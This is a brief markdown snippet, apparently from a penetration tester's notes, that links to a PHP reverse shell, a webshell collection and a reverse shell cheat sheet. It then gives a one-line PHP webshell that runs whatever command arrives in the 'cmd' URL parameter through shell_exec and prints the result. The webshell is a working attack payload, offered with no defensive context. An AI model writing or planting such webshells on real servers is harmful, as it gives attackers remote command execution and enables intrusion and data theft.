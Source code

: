 -   [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
-   [webshells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)
-   [reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
<?php echo "<pre>".shell_exec($_GET["cmd"])."</pre>"; ?>
```

